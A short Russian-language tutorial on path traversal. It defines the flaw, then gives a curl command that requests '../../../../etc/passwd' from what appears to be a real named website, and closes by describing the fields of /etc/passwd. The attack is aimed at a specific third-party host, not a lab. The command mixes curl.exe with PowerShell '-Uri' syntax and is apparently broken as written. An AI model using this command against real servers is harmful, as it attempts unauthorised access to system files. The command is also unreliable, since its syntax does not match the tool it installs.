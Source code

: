 

## Path traversal (обход пути)
* — это уязвимость в веб-приложениях, позволяющая злоумышленнику получить несанкционированный доступ к файлам и директориям на сервере, находящимся за пределами разрешенного корневого каталога *
1. Установим curl 
```
winget install curl.curl
```

2.
```curl -Uri "https://dshi46.ru/../../../../etc/passwd" | select -First 5```
> Файл /etc/passwd содержит следующие записи, разделенные двоеточиями:
  > -Имя пользователя
Зашифрованный пароль
Цифровой идентификатор пользователя (UID)
Цифровой идентификатор группы пользователя (GID)
Полное имя пользователя (GECOS)
Домашний каталог пользователя
Оболочка входа в систему
